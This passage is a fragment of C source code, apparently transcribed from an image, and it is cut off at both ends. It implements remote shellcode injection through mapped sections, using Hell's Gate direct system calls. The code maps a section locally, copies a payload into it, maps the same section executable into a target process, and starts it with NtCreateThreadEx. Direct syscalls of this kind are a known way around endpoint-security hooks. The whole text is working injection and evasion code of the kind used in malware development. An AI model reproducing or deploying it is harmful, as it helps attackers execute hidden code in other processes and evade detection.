 ```c
		return FALSE;
	}

	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

	// Allocating remote map view 
	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	HellsGate(pVxTable->NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

```